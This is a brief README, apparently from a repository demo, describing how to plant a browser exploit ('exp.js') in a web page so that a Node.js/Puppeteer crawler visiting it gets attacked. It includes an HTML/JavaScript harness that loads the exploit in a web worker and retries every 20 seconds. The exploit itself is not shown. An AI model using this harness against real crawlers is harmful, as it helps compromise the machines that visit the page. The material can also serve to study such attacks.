 # Demo2 


Nodejs + Puppeteer : crawler

## deps


Nodejs && Puppeteer
## add exp.js


- add with `<script src=xxxxx>`

OR

- add with js code, work with js web worker



```javascript
<!-- add you exploit js here-->


<!-- <script src="http://127.0.0.1/exp.js"></script> -->

<script> 
var worker;
var exploitSucc = false;

function startExploit() {
    if(exploitSucc){
        return;
    }
    worker = new Worker('exp.js');
 
    worker.onmessage = function (e) {
        exploitSucc = e.data;
        if (exploitSucc == false) {
            document.write("exploit failed, retry....<hr>");
            return;
        }
        document.write("exploit done!!!!!<hr>");
    }
}

// setTimeout(startExploit(), 1000);
startExploit();

var hangMonitor = setInterval(function () {
    if (exploitSucc == true) {
        clearInterval(hangMonitor);
    } else {
        startExploit();
    }
}, 20000);
</script>

<!-- done -->
```

NOT perfect :( 

